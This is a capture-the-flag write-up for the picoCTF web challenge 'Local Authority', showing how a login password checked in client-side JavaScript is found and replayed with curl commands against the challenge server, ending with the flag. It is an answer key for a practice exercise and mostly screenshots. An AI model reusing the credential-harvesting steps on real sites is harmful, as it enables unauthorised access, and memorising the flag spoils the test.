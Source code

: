 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###

#### Step 1: Description ####
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

### OPTION 2: Via Kali Linux Terminal ###

`curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php`

![](images/webpage_login.php.png)

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php`

![](images/webpage_admin.php.png)

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)`

![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
